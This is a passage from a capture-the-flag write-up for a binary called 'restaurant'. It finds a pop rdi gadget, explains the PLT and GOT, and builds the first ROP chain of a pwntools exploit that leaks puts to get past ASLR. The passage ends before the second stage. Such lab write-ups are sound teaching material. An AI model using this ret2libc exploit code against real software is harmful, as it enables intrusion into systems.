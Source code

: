 ```
0x00000000004010a3: pop rdi; ret; 
```

Address ```0x00000000004010a3``` looks like the perfect candidate.

### Outline for leaking libc address

The next step is to figure out how to leak a libc function address from the server so we can calculate the libc base address. Since PIE is disabled, we won't have to do the same for the stack, which is a relief!

Before we jump in though, we need to talk about the Procedure Linkage Table and the Global Offset Table.

#### PLT, GOT, and Symbols

When a program is dynamically linked, two sections of the program are loaded to help reconcile libc addresses at run time. The first is the Procedure Linkage Table (PLT). When a call is made to a library function, the call is actually made to an address in the PLT. This address holds instructions that jump to an address in the Global Offset Table (GOT). The address for a function in the PLT and Symbol table are the same. The entry being jumped to in the GOT gets populated, at runtime, with the address of the library function being called. It is important to remember that GOT addresses are *pointers*.

The Symbols table is a little different with library functions.. Due to ASLR, the symbols table cannot reference absolute addresses, because the base address is randomized at runtime. Thus, the Symbols table holds *offsets* to library functions called in the binary.

These three things are useful for calculating the base address of libc on a remote server, and even a local system if ASLR is on. Using ROP, we can load the GOT address of ```puts()``` into rdi, call the ```puts()``` function via the PLT address, and subtract the address of the libc symbols address of ```puts()``` from whatever is printed out. This will yield the libc base address.

### Crafting the exploit

First, we need to create ELF objects out of the two files we got and declare the binary architecture for pwntools.
```python
context.arch = 'amd64'

elf = ELF("./restaurant")
libc = ELF("./libc.so.6")
```

Next, we need to create our first ROP chain. First, we need to print a newline character so the leaked address is on its own line, making it easier to parse. Then we addout ```pop_rdi``` gadget, followed by the got address for ```puts()```. After that we call the ```puts()``` function, add the address of a ```ret``` gadget for stack alignment purposes, and finally call ```fill()``` again so we can enter a second ROP chain.
```python
# Print newline character
payload = padding
payload += p64(pop_rdi)
payload += p64(null_addr)
payload += p64(plt_puts)

# Leak address of puts
payload += p64(pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)

# Align the stack and return to fill function
payload += p64(ret)
payload += p64(fill)
```
